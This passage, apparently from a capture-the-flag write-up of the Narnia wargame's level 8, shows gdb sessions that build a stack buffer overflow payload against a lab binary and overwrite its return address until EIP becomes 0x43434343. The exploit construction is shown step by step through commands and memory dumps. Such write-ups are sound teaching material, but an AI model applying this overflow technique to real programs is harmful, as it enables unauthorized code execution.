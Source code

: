 ```
(gdb) run $(python -c 'print 20 * "A" + "\x70\xd8"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x70\xd8"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd65c:	0x08048550	0xffffd664	0x41414141	0x41414141
0xffffd66c:	0x41414141	0x41414141	0x41414141	0xffffd870
0xffffd67c:	0xffffd688	0x080484a7	0xffffd86f	0x00000000
0xffffd68c:	0xf7e2a286	0x00000002	0xffffd724	0xffffd730
```

Okay, the address shifted down again to `0xffffd86f`. I followed the pattern util I was able to to overwrite the address of our string and continue to write on the stack :

```
(gdb) run $(python -c 'print 20 * "A" + "\x69\xd8\xff\xff" + "AAAA"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x69\xd8\xff\xff" + "AAAA"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd65c:	0x08048550	0xffffd664	0x41414141	0x41414141
0xffffd66c:	0x41414141	0x41414141	0x41414141	0xffffd869
0xffffd67c:	0x41414141	0x080484a7	0xffffd869	0x00000000
0xffffd68c:	0xf7e2a286	0x00000002	0xffffd724	0xffffd730
```

The trick to remember is that you have to decrease the address of the string by 1 byte each time you add a byte to the payload. Let’s finish that by overwriting the return address :

```
(gdb) run $(python -c 'print 20 * "A" + "\x65\xd8\xff\xff" + "AAAA" + "CCCC"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x65\xd8\xff\xff" + "AAAA" + "CCCC"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd65c:	0x08048550	0xffffd664	0x41414141	0x41414141
0xffffd66c:	0x41414141	0x41414141	0x41414141	0xffffd865
0xffffd67c:	0x41414141	0x43434343	0xffffd865	0x00000000
0xffffd68c:	0xf7e2a286	0x00000002	0xffffd724	0xffffd730
(gdb) continue
Continuing.
AAAAAAAAAAAAAAAAAAAAe���AAAACCCCe���

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
(gdb) x/x $eip
0x43434343:	Cannot access memory at address 0x43434343
```
